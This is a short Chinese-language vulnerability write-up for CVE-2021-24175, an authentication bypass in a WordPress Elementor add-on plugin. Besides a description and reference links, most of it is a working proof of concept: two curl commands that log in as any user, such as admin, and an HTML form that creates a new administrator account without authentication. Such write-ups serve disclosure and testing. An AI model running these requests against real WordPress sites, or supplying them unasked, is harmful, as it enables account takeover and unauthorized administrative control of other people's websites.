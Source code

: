 # 

# WordPress Elementor Page Builder Plus 身份验证绕过 CVE-2021-24175

## 漏洞描述

未经身份验证的用户可以使用"theplus_ajax_login"和"theplus_google_ajax_register" Ajax请求，通过仅提供相关的用户名，就可以像任何用户一样轻松地进行身份验证。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24175
- https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

## 漏洞影响

```
Elementor Page Builder <4.1.7
```

## 漏洞复现

poc：

```
curl -X POST --data action=theplus_ajax_login --data email=admin -iLSS https://example.com/wp-admin/admin-ajax.php
curl -X POST --data action=theplus_google_ajax_register --data email=admin --data nonce=a -iLSS https://example.com/wp-admin/admin-ajax.php
```

"theplus_google_ajax_register"  AJAX请求还可以允许任何未经身份验证的用户创建具有任意角色的帐户，例如admin，然后登录。

html：

```html
<form method="POST" action="https://example.com/wp-admin/admin-ajax.php">
<input value="newadmin" name="name" type="text">
<input value="test@example.com" name="email" type="text">
<input value="test" name="password" type="text">
<input value="theplus_google_ajax_register" name="action" type="text">
<input value="administrator" name="tp_user_reg_role" type="text">
<input value="any" name="nonce" type="text">
<input type="submit" />
</form>
```


